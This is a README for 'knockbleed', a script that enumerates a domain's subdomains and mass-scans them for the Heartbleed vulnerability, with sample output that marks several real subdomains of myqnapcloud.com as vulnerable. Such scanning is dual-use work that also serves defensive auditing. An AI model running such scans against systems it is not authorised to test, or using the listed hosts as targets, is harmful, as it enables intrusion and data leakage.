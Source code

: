 knockbleed
==========

CVE-2014-0160 mass scan against subdomains

Requirement:
* Knock Subdomain Scan by Gianni 'guelfoweb' Amato - https://github.com/guelfoweb/knock
* check-ssl-heartbleed by Steffen Ullrich - https://github.com/noxxi/p5-scripts
* perl
* python

Usage:

    sid@sweethome:~$ ./knockbleed.sh myqnapcloud.com


Output
======

    sid@sweethome:~$ ./knockbleed.sh myqnapcloud.com
    
    Testing access.myqnapcloud.com:443 ...
    Testing adam.myqnapcloud.com:443 ...
    Testing ads.myqnapcloud.com:443 ...
    Testing adsl.myqnapcloud.com:443 ...
    Testing agent.myqnapcloud.com:443 ...
    Testing ajax.myqnapcloud.com:443 ...
    Testing alpha.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing anaheim.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing analyzer.myqnapcloud.com:443 ...
    Testing apollo.myqnapcloud.com:443 ...
    Testing app.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing apple.myqnapcloud.com:443 ...
    Testing as400.myqnapcloud.com:443 ...
    Testing asia.myqnapcloud.com:443 ...
    Testing athena.myqnapcloud.com:443 ...
    Testing atlas.myqnapcloud.com:443 ...
    Testing austin.myqnapcloud.com:443 ...
    Testing auto.myqnapcloud.com:443 ...
    Testing backup.myqnapcloud.com:443 ...
    Testing baltimore.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing bbs.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing bea.myqnapcloud.com:443 ...
    Testing beta.myqnapcloud.com:443 ... BAD! got 16384 bytes back instead of 3 (vulnerable)
    Testing biz.myqnapcloud.com:443 ...
    Testing black.myqnapcloud.com:443 ...
    Testing blog.myqnapcloud.com:443 ...
    Testing blue.myqnapcloud.com:443 ...
